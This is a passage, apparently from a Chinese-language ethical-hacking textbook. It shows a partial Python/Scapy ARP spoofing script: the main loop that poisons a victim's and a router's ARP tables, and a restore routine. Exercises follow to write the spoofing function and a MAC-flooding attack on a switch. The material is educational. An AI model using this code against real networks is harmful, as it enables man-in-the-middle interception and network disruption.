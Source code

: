 ```

    def main():

        victim_ip= sys.argv[1]

        router_ip= sys.argv[2]

        victim_mac = getmacbyip(victim_ip)

        router_mac = getmacbyip(router_ip)

        try:

           print("Sending spoofed ARP packets")

           while True:

              arp_spoof(victim_ip, victim_mac, router_ip)

              arp_spoof(router_ip, router_mac, victim_ip)

        except KeyboardInterrupt:

           print("Restoring ARP Tables")

           arp_restore(router_ip, router_mac, victim_ip, victim_mac)

           arp_restore(victim_ip, victim_mac, router_ip, router_mac)

           quit()

    main()
```

实现`arp_spoof()`函数➊。该函数应与`arp_restore()`➋非常相似，后者用于将 ARP 表恢复到其原始状态。你可以参考`arp_restore()`作为指南。在该函数中，我们创建一个新的 ARP 数据包。`ARP()`函数➌接收多个选项（`op`）。其中，`"is-at"`选项表示 ARP 回复，而`"who-has"`选项表示 ARP 请求。你也可能会看到这些选项分别以数字 2 和 1 表示。最后，我们发送我们创建的数据包➍。

#### ***MAC 泛洪***

*内容寻址存储器（CAM）* 是路由器和交换机中使用的存储硬件。在交换机中，这些存储器将 MAC 地址映射到相应的端口。因此，CAM 只能存储有限数量的条目。如果交换机的 CAM 已满，它将通过所有端口广播消息。攻击者可以通过向交换机发送带有随机 MAC 地址的数据包来强制交换机执行这种行为。编写一个 Scapy 程序来执行此攻击。
